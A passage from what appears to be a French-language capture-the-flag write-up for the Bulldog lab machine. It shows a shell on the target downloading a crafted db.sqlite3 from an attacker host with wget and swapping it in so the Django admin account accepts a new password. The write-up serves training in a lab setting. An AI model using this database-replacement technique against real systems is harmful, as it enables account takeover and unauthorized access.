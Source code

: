 ```console
django@bulldog:/home/django/bulldog$ wget http://192.168.56.101:8000/db.sqlite3
</bulldog$ wget http://192.168.56.101:8000/db.sqlite3                        
--2018-01-01 00:00:00--  http://192.168.56.101:8000/db.sqlite3
Connecting to 192.168.56.101:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 40960 (40K) [application/octet-stream]
Saving to: ‘db.sqlite3.1’

db.sqlite3.1        100%[===================>]  40.00K  --.-KB/s    in 0s      

2018-01-01 00:00:01 (160 MB/s) - ‘db.sqlite3.1’ saved [40960/40960]

django@bulldog:/home/django/bulldog$ mv db.sqlite3 db.sqlite3.old && mv db.sqlite3.1 db.sqlite3
</bulldog$ mv db.sqlite3 db.sqlite3.old && mv db.sqlite3.1 db.sqlite3

django@bulldog:/home/django/bulldog$ ls
ls
bulldog  db.sqlite3  db.sqlite3.old  manage.py	shell.py
```

![Affichage de l'image DJANGO-Admin1.png](images/DJANGO-Admin1.png)

La connexion au compte _admin_ fonctionne désormais avec le nouveau mot de passe !

![Affichage de l'image DJANGO-Admin2.png](images/DJANGO-Admin2.png)
